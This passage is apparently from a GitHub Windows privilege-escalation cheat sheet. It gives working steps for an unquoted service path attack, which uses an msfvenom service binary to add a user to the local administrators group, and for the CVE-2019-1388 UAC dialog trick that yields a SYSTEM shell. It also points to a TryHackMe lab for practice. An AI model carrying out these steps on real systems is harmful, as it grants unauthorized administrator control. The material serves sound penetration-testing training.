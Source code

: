 ### Escalation via Unquoted Service Path

### (Because it's not quoted off we can modify it and get malicious with it!)

### Discovery:

- `accesschk64.exe -uwvc Everyone *`
- We are looking for a few things:
1. **u** to surpass errors
2. **w** only objects that have wright access
3. **c** service name
4. **v** verbose
5. **Everyone** is a group
6. in results look for a ***BINARY_PATH_NAME field*** that displays a path that is not confined between quotes.

### [Exploitation:](https://github.com/encryptedninja/command-center/blob/master/Windows-Privesc/windows-privesc.md#exploitation-3)

- `powershell -ep bypass`
- `. .\PowerUps.ps1`
- `Invoke-AllChecks`
- in msfvenom on kali: `msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe`
- copy the generated file ***common.exe***to the Windows VM
- place ***common.exe*** in `C:\Program Files\Unquoted Path Service`
- Windows VM command prompt: `sc start unquotedsvc`
- check if user was added to the local administrators group in the command prompt: `net localgroup administrators`
- for additional practice play: **[Tryhackme.com room: Steal Mountain](https://tryhackme.com/room/steelmountain)**

### [Escalation path via CVE-2019-1388](https://github.com/encryptedninja/command-center/blob/master/Windows-Privesc/windows-privesc.md#escalation-path-via-cve-2019-1388)

- close down IE, right click on ***hhupd.exe*** file, check properties. Make sure there's no security features in it, if there is make sure to uncheck it
- right click on file, run as administrator
- you get the UAC (User Access Control) prompt
- click ***issues by*** certificate, it will open up Internet Explorer as system
- when it opens up, click on the settings cog on the right hand side, ***file*** and then ***save as***
- you'll get an error message, just ignore it
- in the save file as window for file name type in: `C:\Windows\System32\*.*` this will take you to the file system within that window
- what we want to find is the ***cmd.exe*** right click on it, open
- in prompt: `whoami` and we'll see that we are `AUTHORITY\SYSTEM`
